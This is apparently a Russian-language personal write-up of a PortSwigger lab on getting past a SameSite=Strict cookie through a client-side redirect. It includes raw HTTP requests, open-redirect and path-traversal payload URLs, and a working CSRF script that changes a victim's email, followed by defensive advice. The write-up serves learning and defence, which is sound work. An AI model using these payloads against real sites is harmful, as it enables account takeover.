





## Обход ограничений SameSite с помощью гаджетов на месте

когда кука установлена с `SameSite=Strict`, браузер никогда не отправляет её в кросс-сайтовых запросах^ и вообще никогда =ни GET, ни POST, ни iframe, ни fetch - ничего не работает
но у этой защиты есть ахиллесова пята: клиентские редиректы

если хакер может заставить браузер жертвы сделать первый запрос на уязвимый сайт, а тот в ответ выполнит клиентский редирект на другой эндпоинт того же сайта — второй запрос уже считается same-site и кука прилетает целиком

## ПРИМЕРЫ ГАДЖЕТОВ ДЛЯ ОБХОДА STRICT

### открытый редирект через параметр

`window.location = new URLSearchParams(window.location.search).get('returnUrl');`

эксплойт:

`https://vuln.site/redirect?returnUrl=/my-account/change-email?email=hacker@me.com`

### meta refresh с user input
```html
<meta http-equiv="refresh" content="0;url=/post/{{postId}}">
```

эксплойт:
`https://vuln.site/post?postId=../my-account/change-email?email=hacker@me.com`


-------------


лаба https://portswigger.net/web-security/csrf/bypassing-samesite-restrictions/lab-samesite-strict-bypass-via-client-side-redirect
#### SameSite Strict bypass via client-side redirect

задание = выполните CSRF-атаку, которая изменит адрес электронной почты жертвы

-------


вот запрос на смену емейл
```http
POST /my-account/change-email HTTP/2
Host: 0a12002f036d80a195499e4c002200f1.web-security-academy.net
Cookie: session=fJiqWJG83ErHGZkpf9iFYaGUTEwcVLsv
Content-Length: 29
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="145", "Not:A-Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Accept-Language: ru-RU,ru;q=0.9
Origin: https://0a12002f036d80a195499e4c002200f1.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/145.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a12002f036d80a195499e4c002200f1.web-security-academy.net/my-account?id=wiener
Accept-Encoding: gzip, deflate, br
Priority: u=0, i

email=hacker%40bk.ru&submit=1
```

поменял запрос на гет
`https://0a12002f036d80a195499e4c002200f1.web-security-academy.net/my-account/change-email?email=hacker777%40bk.ru&submit=1`

и вуаля - ответ 302 - емейл сменился!



------

осталось - только лишь заставить браузер жертвы выполнить переход по этой ссылке!

-----
пробую

```html
<html>
  <body>
    <form action="https://0a12002f036d80a195499e4c002200f1.web-security-academy.net/my-account/change-email?email=hacker5555@bk.ru&submit=1" method="GET">
      <input type="hidden" name="Priority: u" value="0, i" />
    </form>
    <script>
      document.forms[0].submit()
    </script>
  </body>
</html>
```

попробовал на себе - не получилось - так как сайт сразу редиректит на стр логина!
выбрасывая меня из аккаунта!
вот ответ
```http
HTTP/2 302 Found
Location: /login
Set-Cookie: session=x8JcSaHtDmSk1IVD3pRNsaxk8byd72e1; Secure; HttpOnly; SameSite=Strict
X-Frame-Options: SAMEORIGIN
Content-Length: 0

```
в ответе видно `SameSite=Strict`

я проверил 
если отправить вот так без сессионной куки этот же запрос - ответ  
HTTP/2 302 Found
Location: /login
```
GET /my-account/change-email?email=hacker777%40bk.ru&submit=1 HTTP/2
Host: 0a12002f036d80a195499e4c002200f1.web-security-academy.net
Content-Length: 0
Cache-Control: max-age=0
```
значит - когда жертва (или я ) переходит по ссылке моей - то выбрасывает на  Location: /login
## значит кука не подставилась автомитически !
это из-за SameSite=Strict
--- браузер жертвы не отправил эту куку в кросс-сайтовом запросе (с exploit-сервера на лабу)
и теперь нужно понять - как сделать так - чтобы браузер подставил в этот запрос куку сессии обратно!
нужно как-то обойти ограничение SameSite=Strict, чтобы браузер жертвы выполнил GET-запрос на смену email, но при этом кука `session` подставилась тоже в запрос

-------
в ответе видно `SameSite=Strict`

**Strict** (строгий)— не отправлять ни при каких кросс-сайт запросах  

**Lax**  (вялый епта)— отправлять только при GET и только при top-level навигации (переход по ссылке)  

**None**  (нет)— отправлять всегда (требует Secure + HTTPS)

-------

среди запросов сайта - я заметил запрос  - который автоматически сработал
это запрос появился после отправки коммента - и потом через пару сек выполнился редирект
обратно на пост

вот этот запрос отправляет коммент
```http
POST /post/comment HTTP/
...
postId=9&comment=43534&name=hacker&email=hacker%40bk.ru&website=
```
ответ 302
и потом автоматически открывается стр
```http
GET /post/comment/confirmation?postId=9 HTTP/2

```
и возвращает мне ответ 302

но через - 2-3 сек открывается стр `GET /post/8 HTTP/2`


и я заметил запрос который тоже сам выполнился автоматом

`GET /resources/js/commentConfirmationRedirect.js HTTP/2`



и в ответе на него js файл с функцией редиректа

```js
HTTP/2 200 OK
Content-Type: application/javascript; charset=utf-8
Cache-Control: public, max-age=3600
X-Frame-Options: SAMEORIGIN
Content-Length: 231

redirectOnConfirmation = (blogPath) => {
    setTimeout(() => {
        const url = new URL(window.location);
        const postId = url.searchParams.get("postId");
        window.location = blogPath + '/' + postId;
    }, 3000);
}
```

эта функция через 3 сек выполняет редирект обратно на стр поста!
и самое интересное - что при этом редиректе - попадая обратно на стр поста - меня не выкидывает на Location: /login


------------

а вот еще наблюдение!!

это запрос `POST /post/comment HTTP/2` c параметрами  `postId=9&comment=43534&name=hacker&email=hacker%40bk.ru&website=`

и в ответе 302 + отражается то - что было в параметрах!
```http
HTTP/2 302 Found
Location: /post/comment/confirmation?postId=9
X-Frame-Options: SAMEORIGIN
Content-Length: 0

```




но ничего не вышло - так как буквы не отражаются - только цифры

------

## ВОТ ТУТ НИЖЕ Я ПОНЯЛ КАК РЕШИТЬ ЛАБУ 


заметил особенность!
если перейти по ссылке снова
```http
GET /post/comment/confirmation?postId=9 HTTP/2

вот ссылка
https://0a12002f036d80a195499e4c002200f1.web-security-academy.net/post/comment/confirmation?postId=9

```

то срабатывает тот скрипт - и меня редиректит на страницу поста
то есть этот пост редиректит на пост страницу

разбираюсь в том- почему так происходит:

и разобрался - в html сайта - видно что выполняестя скрипт!! при отк этой страницы
```html
<script src='/resources/js/commentConfirmationRedirect.js'></script>
```




и в этом скрипте код
```js
redirectOnConfirmation = (blogPath) => {
    setTimeout(() => {
        const url = new URL(window.location);
        const postId = url.searchParams.get("postId");
        window.location = blogPath + '/' + postId;
    }, 3000);
}
```
эта функция как-раз и занимается тем, что редиректит через 3 сек на стр поста номер: (а вот номер поста - эта функция берет из postId=9 `GET /post/comment/confirmation?postId=9 HTTP/2` )

значит - если будет возможно передать в postId=9 ссылку на смену емейл 
вот эту `https://0a12002f036d80a195499e4c002200f1.web-security-academy.net/my-account/change-email?email=hacker777%40bk.ru&submit=1`  не должно выбросить на логин!
так как выбросит на смену емейл! и так как этот запрос прийдет не от моейго эксплойт сервера переход на смену емейл - а этот запрос прийдет от самой функции этого серавера - то сервер доверяя этой своей же функции может сделать так, что даст ей куку сессии также как он это делает при редиректе на пост!!

-----
делаю проверку простую!

закидываю в щапрос левую ссылку
`GET /post/comment/confirmation?postId=https://www.youtube.com HTTP/2`
и сперва это:




а через 3 сек в браузере открывается ссылка:
```http

https://0a12002f036d80a195499e4c002200f1.web-security-academy.net/https:/www.youtube.com
```
и ответ "Not Found"

###### тот факт , что сервер полностью отражает там мою любую ссылку, это уже выглядит довольно жестко 
-------

домен так или иначе - лабы все - равно!

так тоже естественно не работает
`https://0a12002f036d80a195499e4c002200f1.web-security-academy.net/post/comment/confirmation?postId=www.youtube.com`

либо на внешние сайты не получится перейти
либо можно пробовать переход только на внутренние стр этого сайта
напрмиер на  запрос который меняет емейл!

`https://0a12002f036d80a195499e4c002200f1.web-security-academy.net/my-account/change-email?email=hacker777%40bk.ru&submit=1`

пробую:
```http

https://0a12002f036d80a195499e4c002200f1.web-security-academy.net/post/comment/confirmation?postId=/my-account/change-email?email=hacker777%40bk.ru&submit=1
```
через 3 сек был авто редирект
на `https://0a12002f036d80a195499e4c002200f1.web-security-academy.net/post/my-account/change-email?email=hacker777@bk.ru`
ответ 404 не найдено

---------

иду гуглить в дипсик..

-----

базаовый запрос такой `GET /post/comment/confirmation?postI=1`
но мне нужно `/my-account/change-email?email=hacker777%40bk.ru&submit=1`

	поэтому можно пробоавать пробовать выйти выше - сперва выйти из дирректории confirmation, и потом выйти из comment /и наверно из post тоже.`

поэтому пробую ../

пробую:
```http

https://0a12002f036d80a195499e4c002200f1.web-security-academy.net/post/comment/confirmation?postId=../../my-account/change-email?email=hacker777%40bk.ru&submit=1
```
ответ 400 "Missing parameter: 'submit'"

-----

пробую без submit
```http

https://0a12002f036d80a195499e4c002200f1.web-security-academy.net/post/comment/confirmation?postId=../../my-account/change-email?email=hacker5556%40bk.ru
```
снова ответ 400 "Missing parameter: 'submit'"

-------

вот запрос на смену емейл
```http
GET /my-account/change-email?email=hacker7277%40bk.ru&submit=1 HTTP/2
Host: 0a12002f036d80a195499e4c002200f1.web-security-academy.net
Cookie: session=fJiqWJG83ErHGZkpf9iFYaGUTEwcVLsv
Content-Length: 0
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="145", "Not:A-Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Accept-Language: ru-RU,ru;q=0.9
Origin: https://0a12002f036d80a195499e4c002200f1.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/145.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a12002f036d80a195499e4c002200f1.web-security-academy.net/my-account?id=wiener
Accept-Encoding: gzip, deflate, br
Priority: u=0, i

```

в виде урл
```
https://0a12002f036d80a195499e4c002200f1.web-security-academy.net/my-account/change-email?email=hacker7277%40bk.ru&submit=1
```

а епта, %40 мешает наверно!

-----

пробую с @
```http

https://0a12002f036d80a195499e4c002200f1.web-security-academy.net/post/comment/confirmation?postId=../../my-account/change-email?email=hacker725577@bk.ru&submit=1
```
снова ответ 400 "Missing parameter: 'submit'"
блет, я же отправляю ему submit!! че не нравится!!

-----


пробую с %26 вместо &
```http

https://0a12002f036d80a195499e4c002200f1.web-security-academy.net/post/comment/confirmation?postId=../../my-account/change-email?email=hacker725509077%40bk.ru%26submit=1
```

СРАБОТАЛО!!!!!!!
ебушки воробушки, сработало...

-----


еду сюда
https://csrf-poc-generator.vercel.app

получаю
```http
<html>
  <body>
    <form action="https://0a12002f036d80a195499e4c002200f1.web-security-academy.net/my-account/change-email?email=hacker7277%40bk.ru&submit=../../my-account/change-email?email=hacker72557887@bk.ru%26submit=1" method="GET">
    </form>
    <script>
      document.forms[0].submit()
    </script>
  </body>
</html>
```
не сработало

-----

пробую через мету
```html
<html>
  <head>
    <meta http-equiv="refresh" content="0; url=https://0a12002f036d80a195499e4c002200f1.web-security-academy.net/my-account/change-email?email=hacker7277%40bk.ru&submit=../../my-account/change-email?email=hacker725577@bk.ru%26submit=1">
  </head>
</html>
```
не сработало

------

пробую 
```html
<script>
    document.location = "https://0a12002f036d80a195499e4c002200f1.web-security-academy.net/post/comment/confirmation?postId=../../my-account/change-email?email=hacker7277%40bk.ru%26submit=1";
</script>
```

сработало

ЛАБА РЕШЕНА

---

## выводы


#### ПОЧЕМУ ВЗЛОМ ПОЛУЧИЛСЯ

сайт установил куку `session` с атрибутом `SameSite=Strict` -= это значит, что браузер никогда не отправляет её в кросс-сайтовых запросах, даже GET (вот у меня при гет+кука все сработало, но без куки ответ 405 )

но на сайте нашёлся **гаджет** - страница `/post/comment/confirmation?postId=X`, которая:

- доступна без куки (первый запрос с exploit-сервера проходит)
   
- содержит JavaScript, который через 3 секунды делает клиентский редирект на основе `postId`


клиентский редирект - это второй запрос, который браузер считает same-site навигацией, поэтому кука прикладывается

я подставил в `postId` path traversal `../../my-account/change-email?email=...%26submit=1`

JS выполнил `window.location = '/post/' + postId`, браузер нормализовал путь в `/my-account/change-email?email=...&submit=1`, и второй запрос ушёл с кукой жертвы

#### КЛЮЧЕВОЙ МОМЕНТ

первое = я заметил что запрос `GET /post/comment/confirmation?postId=9 HTTP/2` редиректит на стр блога!!

второе = то есть нашел файл js где видно как происходит редирект!
значение из параметра просто подставлялось в эту функцию!

ну а далее - я начал подставлять туда уже путь для сброса емейл
и тупил, но потом дипсик мне подскзал , что можно пробовать path travrsal


**`%26` вместо `&`** — я закодировал амперсанд, чтобы параметр `submit` стал частью значения `postId`, а не отдельным параметром URL

без этого сервер ругался "Missing parameter: 'submit'", потому что видел `submit` как отдельный параметр, но не находил его там, где ожидал

#### КАК ЗАЩИТИТЬСЯ

не оставлять файлы js в html коде

не доверяй пользовательскому вводу в редиректах - если делаешь редирект на основе параметра, проверяй, что путь начинается с разрешённого префикса и не содержит `..` символов для path travrsal
   
используй белые списки - редиректы должны быть только на заранее известные URL, а не на любые значения из параметра, в  этом же случае - получилась протащить даже url ютуба!
   
для критических эндпоинтов не используй GET - смена email должна быть только POST, даже если технически можно сделать GET
   
 добавляй CSRF-токены - даже если кука Strict, лишняя защита не помешает
   
проверяй Origin и Referer - даже если запрос пришёл с того же сайта, убедись, что он действительно легитимный

-------

